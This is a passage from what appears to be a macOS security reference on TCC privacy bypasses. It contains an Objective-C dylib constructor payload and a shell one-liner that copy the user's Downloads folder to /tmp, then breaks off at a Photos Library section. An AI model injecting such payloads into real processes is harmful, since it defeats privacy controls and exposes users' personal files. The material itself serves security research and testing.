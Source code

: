 {% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Downloads` to `/tmp/downloads`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Downloads"];
    NSString *tmpPhotosPath = @"/tmp/downloads";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Dowloads` to `/tmp/downloads`.

```bash
cp -r "$HOME/Downloads" "/tmp/downloads"
```
{% endtab %}
{% endtabs %}

### Photos Library

* **Entitlement**: `com.apple.security.personal-information.photos-library`
* **TCC**: `kTCCServicePhotos`

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Pictures/Photos Library.photoslibrary` to `/tmp/photos`.
